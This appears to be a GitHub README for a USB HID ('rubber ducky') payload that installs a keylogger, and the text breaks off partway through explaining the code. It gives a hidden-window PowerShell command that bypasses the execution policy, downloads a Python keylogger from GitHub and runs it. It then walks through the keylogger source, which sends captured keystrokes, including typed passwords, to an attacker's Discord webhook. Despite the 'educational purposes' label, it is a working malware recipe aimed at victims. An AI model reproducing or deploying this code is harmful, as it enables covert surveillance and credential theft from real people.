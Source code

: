 THIS IS ONLY MADE FOR EDUCATIONAL PURPOSES


# What it Does

This payload executes a powershell command that downloads a python keylogger and runs it. This keylogger sends the keys pressed over discord using a webhook.

# Dependencies

- Windows
- Python

# How it Works:

## The rubber ducky script
When the grabber.dd runs it opens a powershell terminal window and enters this string:

```powershell
powershell -w h -NoP -NonI -Exec Bypass -c "cd $env:USERPROFILE\Documents ; iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/discord-keylogger/logger.py -OutFile $Env:USERPROFILE\Documents\logger.py ; py -m pip install discordwebhook pynput ; Python logger.py <Your discord webhook here>"
```

### Flags used:

The ```powershell -w h -NoP -NonI -Exec Bypass -c``` tells powershell to execute a set of commands with some flags:
- ```-w h``` tells powershell to run in a hidden window so the victim cant see logs
- ```-NoP``` makes sure that none of the users profiles are loaded, which could mess up execution
- ```-NonI``` Makes the user unable to interact with the script while its running
- ```-Exec Bypass``` Makes powershell bypass the execution policy which allows powershell to run scripts
- ```-c``` tells powershell what commands to execute, the commands are enclosed in quotes and seperated with semicolons
- Now the script proceecds to execute a sequence of commands

(copied from the [chrome password stealer](https://github.com/simen64/Pico-HID-Scripts/tree/main/chrome-password-stealerw) README thats made by me)

### Commands ran:

1. First we run ```cd $env:USERPROFILE\Documents``` to enter the users Documents folder where we will be downloading our keylogger
1 . Then we use ```iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/discord-keylogger/logger.py -OutFile $Env:USERPROFILE\Documents\logger.py``` to download the ```logger.py``` script and place it in the Documents folder using -OutFile
3. Before running the python script we use ```py -m pip install discordwebhook pynput``` to download the needed python libraries (if these libraries are found pip skips this step and proceeds)
4. And last we do ```Python logger.py <Your discord webhook here>``` to run the python script and using our webhook as an argument which the python script uses
 
## The keylogger script

The logger script starts by importing the needed libraries which are downloaded in the previous step (some libraries are included by default in python)
```python
from pynput.keyboard import Key, Listener
import time
import threading
from discordwebhook import Discord
import sys
```
Now we tell python what our webhook is by using ```sys.argv[1]``` to take our argument (which we set to our webhook) and put it into the variable called ```hook_url``` Then we tell the discord library that our webhook is the ```hook_url``` which in turn is stored in the ```discord``` variable
```python
hook_url = sys.argv[1]
discord = Discord(url=hook_url)
```
After that is set up we need to define some variables and lists that the logger will use. The ```word``` list is used to store the keypresses recorded by [pynput](https://pypi.org/project/pynput/) ```last_pressed``` is going to be used later but is for now just set to the time. ```idle_message``` will also be explained more in detail later and is for now set to ```false```
```python
word = []
last_pressed = time.time()
idle_message = False
```
Now we move over to where we actually record the key presses.
First we define our function called ```on_press``` which is what actually does the recording of keypresses. Then we set the variables ```last_pressed``` and ```idle_message``` to global so we can access them within the function. After that we set ```last_pressed``` to ```time.time``` this variable will become important later. And the ```key_pressed =('{0}'.format(
        key))``` is used for turning the keypress into a string, so if i press the **a** key the variable ```key_pressed``` will store ```'a'```
```python
def on_press(key):
    global last_pressed, idle_message
    last_pressed = time.time()
    key_pressed =('{0}'.format(
        key))
```
After this you will see alot of if statements if you read through the code. These will be explained later, but keep in mind that this ```else:``` statement are after all of those if statements.
This else statement is what happens when a key is pressed (except the ones i will talk about after this, but dont think about that now)
When this statement is triggered we append the ```key_pressed``` variable previously defined to our ```word``` list. Then we set the variable ```idle_message``` to ```false``` which will become important later.
```python3
else:
 word.append(key_pressed)
 idle_message = False
```
this is where this keylogger stands out from some of the other ones you can find. Instead of sending each keypress individually over discord spamming your server and making it difficult to read, this keylogger sends what you have typed after you have pressed space or enter. This makes the output on discord be words instad of letters, and when the victim types something like a password it also shows up as they press enter. Heres how all that works:
